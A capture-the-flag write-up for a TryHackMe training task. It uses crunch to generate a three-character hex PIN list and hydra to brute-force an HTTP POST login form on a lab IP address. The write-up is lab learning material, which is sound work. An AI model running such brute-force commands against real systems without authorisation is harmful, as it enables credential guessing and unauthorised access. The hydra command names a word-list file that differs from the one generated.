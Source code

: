 # Task 9 [Day 3] Brute-forcing: Hydra is Coming to Town
# The Story
![Image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/87f456172b2ef2b072a057d4912dbfdf.svg)

## *Answer Of The Question Below*

#### Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?
![IMAGE](1.png)
```html
<form method="post" action="login.php" class="grid grid-cols-3 max-w-lg mx-auto bg-thm-900 p-4 font-mono">
  <input type="hidden" name="pin" />
</html>
```
![Image](2.png)

#### Generating the Password List
```bash
mkdir passlist && cd passlist
```
![Image](3.png)

```bash
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```
![Image](4.png)

 
#### Using the Password List
![image](5(1).png)
```bash
hydra -l '' -P 3pass.txt -f -v 10.10.172.65 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
#### Found Pin:
![image](6.png)


![image](7.png)




